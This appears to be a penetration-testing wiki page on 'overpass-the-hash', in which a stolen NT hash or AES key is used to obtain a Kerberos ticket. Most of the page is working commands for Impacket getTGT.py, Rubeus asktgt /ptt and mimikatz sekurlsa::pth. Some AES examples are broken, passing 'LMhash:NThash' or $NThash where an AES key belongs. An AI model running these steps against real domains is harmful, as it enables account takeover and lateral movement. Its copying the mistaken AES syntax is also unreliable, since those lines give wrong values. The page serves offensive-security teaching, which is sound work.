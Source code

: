 # Overpass the hash

## Theory

In short, an attacker knowing a user's NT hash can use it to authenticate over NTLM \([pass-the-hash](../abusing-ntlm/pass-the-hash.md)\) or indirectly over Kerberos \(overpass-the-hash, also known as pass the key\).

With overpass-the-hash, an attacker can leverage a user's NT hash to request a TGT, that can then be used with [pass-the-ticket](pass-the-ticket.md) to request a Service ticket and access a service using Kerberos.

## Practice

{% tabs %}

The [Impacket](https://github.com/SecureAuthCorp/impacket) script [getTGT](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getTGT.py) \(Python\) can request a TGT \(Ticket Granting Ticket\) given a password, hash \(`LMhash` can be empty\), or aesKey. The TGT will be saved as a ccache file that can then be used by other Impacket scripts.

```bash
# with a password
getTGT.py $DOMAIN/$USER:$PASSWORD@$TARGET

# with an NT hash
getTGT.py -hashes 'LMhash:NThash' $DOMAIN/$USER@$TARGET

# with an AES (128 or 256 bits) key
getTGT.py -aesKey 'LMhash:NThash' $DOMAIN/$USER@$TARGET
```

Once a TGT is obtained, the tester can use it with the environment variable `KRB5CCNAME` with tools implementing [pass-the-ticket](pass-the-ticket.md).

{% page-ref page="pass-the-ticket.md" %}

On Windows, requesting a TGT can be achieved with [Rubeus](https://github.com/GhostPack/Rubeus) \(C\#\). The ticket will be injected in the session and Windows will natively be able to use these tickets to access given services.

```bash
# with an NT hash
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /rc4:$NThash /ptt

# with an AES 128 key
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /aes128:$NThash /ptt

# with an AES 256 key
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /aes256:$NThash /ptt
```

An alternative to Rubeus is [mimikatz](https://github.com/gentilkiwi/mimikatz).

```bash
# with an NT hash
sekurlsa::pth /user:$USER /domain:$DOMAIN /rc4:$NThash /ptt

# with an AES 128 key
sekurlsa::pth /user:$USER /domain:$DOMAIN /aes128:$aes128_key /ptt

# with an AES 256 key
sekurlsa::pth /user:$USER /domain:$DOMAIN /aes256:$aes256_key /ptt
```

For both mimikatz and Rubeus, the `/ptt` flag is used to automatically [inject the ticket](pass-the-ticket.md#injecting-the-ticket).

## Resources

{% embed url="https://blog.notso.pro/2020-05-09-offops-in-ad-1/" caption="" %}

{% embed url="http://blog.gentilkiwi.com/securite/mimikatz/overpass-the-hash" caption="" %}

{% embed url="https://blog.stealthbits.com/how-to-detect-overpass-the-hash-attacks/" caption="" %}

